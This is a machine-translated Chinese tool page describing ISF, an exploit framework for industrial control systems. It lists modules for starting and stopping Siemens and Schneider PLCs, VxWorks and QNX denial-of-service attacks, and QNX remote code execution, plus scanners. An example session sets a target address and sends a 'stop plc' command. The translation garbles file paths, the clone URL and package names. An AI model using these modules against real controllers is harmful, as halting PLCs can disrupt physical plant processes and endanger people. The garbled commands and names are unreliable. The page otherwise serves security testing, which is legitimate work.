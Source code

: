 # ISF:工业控制系统开发框架

> 原文：<https://kalilinuxtutorials.com/industrial-control-system/>

**ISF** (工控系统开发框架)，基于 Python 的开发框架。工业控制系统基于开源项目 [routersploit](https://github.com/reverse-shell/routersploit) 。

**ICS 协议客户端**

| 名字 | 小路 | 描述 |
| --- | --- | --- |
| modbus _ tcp _ 客户端 | ics sploit/clients/Modbus _ TCP _ client . py | Modbus-TCP 客户端 |
| wdb2 _ 客户端 | ics sploit/clients/wd B2 _ client . py | WdbRPC 版本 2 客户端(Vxworks 6.x) |
| s7 _ 客户端 | icssploit/clients/s7_client.py | s7comm 客户端(S7 300/400 PLC) |

**又读-[Darksplitz:漏洞利用框架](https://kalilinuxtutorials.com/darksplitz/)**

**漏洞利用模块**

| 名字 | 小路 | 描述 |
| --- | --- | --- |
| s7 _ 300 _ 400 _ plc _ 控制 | exploits/PLC/西门子/s7_300_400_plc_control.py | S7-300/400 PLC 启动/停止 |
| s7 _ 1200 _ plc _ 控制 | exploits/PLC/西门子/s7_1200_plc_control.py | S7-1200 PLC 启动/停止/复位 |
| vxworks_rpc_dos | exploits/PLC/VxWorks/VxWorks _ RPC _ dos . py | Vxworks RPC 远程 dos(CVE-2015-7599) |
| 量子 _ 140 _ plc _ 控制 | exploits/PLC/schneider/quantum _ 140 _ PLC _ control . py | 施耐德 Quantum 140 系列 PLC 启动/停止 |
| 崩溃 _ qnx _ inetd _ tcp _ 服务 | exploits/PLC/QNX/crash _ QNX _ inetd _ TCP _ service . py | QNX Inetd TCP 服务 dos |
| qconn _ 远程 _ 执行 | exploits/PLC/QNX/qconn _ remote _ exec . py | QNX qconn 远程代码执行 |
| profinet_set_ip | exploits/PLC/Siemens/ProFi net _ set _ IP . py | Profinet DCP 设备 IP 配置 |

**扫描仪模块**

| 名字 | 小路 | 描述 |
| --- | --- | --- |
| profinet_dcp_scan | 扫描仪/profinet_dcp_scan.py | Profinet DCP 扫描仪 |
| vxworks_6_scan | 扫描仪/vxworks_6_scan.py | Vxworks 6.x 扫描仪 |
| s7comm_scan | scanners/s7comm_scan.py | S7comm 扫描仪 |
| enip_scan | 扫描仪/enip_scan.py | 以太网 IP 扫描仪 |

**ICS 协议模块(Scapy 模块)**

这些协议可以用在其他模糊框架中，如 [Kitty](https://github.com/cisco-sas/kitty) 或者创建你自己的客户端。

| 名字 | 小路 | 描述 |
| --- | --- | --- |
| pn_dcp | icssploit/protocols/pn_dcp | Profinet DCP 协议 |
| modbus_tcp | icssploit/protocols/modbus_tcp | Modbus TCP 协议 |
| wdbrpc2 | icssploit/protocols/wdbrpc2 | WDB RPC 版本 2 协议 |
| s7comm | icssploit/protocols/s7comm.py | S7comm 协议 |

**安装**

**Python 需求**

*   gnureadline(仅限 OSX)
*   要求
*   帕拉马里科
*   beautifulsoup4
*   pysnmp
*   python-nmap
*   scapy [我们建议将 scapy 手册与此正式文件一起安装](http://scapy.readthedocs.io/en/latest/installation.html)

**安装在 Kali 上**

**git 克隆 https://github . com/dark-LBP/ISF/
ISF CD
python ISF . py**

**用途**

**root @ kali:~/Desktop/temp/ISF # python ISF . py
ICS exploit 框架【】注:ICSSPOLIT 是从 routersploit at
【】开发团队:朱(dark-lbp)
版本:0.1.0

漏洞:2 个扫描器:0 个 Creds: 13 个
ICS 漏洞:
PLC: 2 个 ICS Switch: 0
软件:0
isf >**

**战功**

**isf >利用漏洞/PLC/
漏洞/PLC/西门子/漏洞/PLC/VxWorks/
ISF>利用漏洞/PLC/西门子/s7_300_400_plc_control
漏洞/PLC/西门子/S7 _ 300 _ 400 _ PLC _ Control
ISF>利用漏洞/PLC/西门子/S7 _ 300 _ 400 _ PLC _ Control
ISF(S7-300**

您可以使用 tab 键来完成。

**选项**

**显示模块选项:**

**isf (S7-300/400 PLC 控制)>显示选项
目标选项:
名称电流设置描述
————————————————
目标目标地址例如 192.168.1.1
端口 102 目标端口
模块选项:
名称电流设置描述
——————————————
插槽 2 CPU 插槽号。
命令 1 命令 0:启动 plc，命令 1:停止 plc。
isf (S7-300/400 PLC 控制)>**

**设置选项**

**isf (S7-300/400 PLC 控制)>设定目标 192 . 168 . 70 . 210
[+]{ ' target ':' 192 . 168 . 70 . 210 ' }**

**运行模块**

isf (S7-300/400 PLC 控制) >运行
[]运行模块… [+]目标处于活动状态[]向目标发送数据包
[*]停止 plc
isf (S7-300/400 PLC 控制)>

**显示漏洞利用信息**

**isf (S7-300/400 PLC 控制)>显示信息

名称:
S7-300/400 PLC 控制

描述:
使用 S7comm 命令启动/停止 PLC。

设备:
西门子 S7-300 和 S7-400 可编程逻辑控制器

作者:
朱

参考文献:
isf (S7-300/400 PLC 控制)>**

[**Download**](https://github.com/dark-lbp/isf)